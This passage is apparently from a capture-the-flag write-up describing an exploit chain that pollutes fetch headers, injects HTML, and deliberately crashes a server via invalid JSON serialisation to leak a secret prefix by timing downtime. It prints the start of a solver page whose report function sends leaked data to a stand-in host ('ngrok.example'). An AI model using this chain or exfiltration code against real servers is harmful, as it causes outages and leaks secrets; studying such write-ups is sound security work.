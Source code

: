 If call to `URL` returns error then `FALLBACK_URL` will be called. If `URL` returns 200 OK there won't be any call to `FALLBACK_URL`.

4. Throw unhandled exception if prefix is not correct. Set `URL` to `/messages?content=<prefix>` and `FALLBACK_URL` to `/message/%ff`. JSON will throw an exception during `\xff` serialization, it leads to server downtime.

5. Track server downtime from internet. We know public URL so we can easily perform many requests and check is the server down.

So the final chain:

```
1. pollute fetch headers
2. conflict on /register -> html inserted on the page
3. call to /messages?content=<prefix> with fallback to /message/%ff
4. check if the server is crashed
```

Example solver: 

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8"/>
        <title>exploit</title>
    </head>
    <body>
        <script>

const EXCESS_URL = 'http://excess.example:12345/';
const INTERNAL_EXCESS_URL = 'http://localhost:31337';

const REPORT_URL = 'http://ngrok.example:12345/report';

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

const loadState = () => {
    const hash = location.hash.slice(1) || '{}';
    const state = JSON.parse(decodeURIComponent(hash));

    if (typeof state.prefix === 'undefined') {
        state.prefix = '{';
    }
    if (typeof state.index === 'undefined') {
        state.index = 0;
    }

    return state;
};

const saveState = (state) => {
    location.hash = encodeURIComponent(JSON.stringify(state));
    location.reload();
};

const report = value => {
    const data = encodeURIComponent(JSON.stringify(value));
    const url = `${REPORT_URL}?report=${data}`;

    return fetch(url, {
        method: 'GET',
        mode: 'no-cors',
    }).catch(() => { });
};

```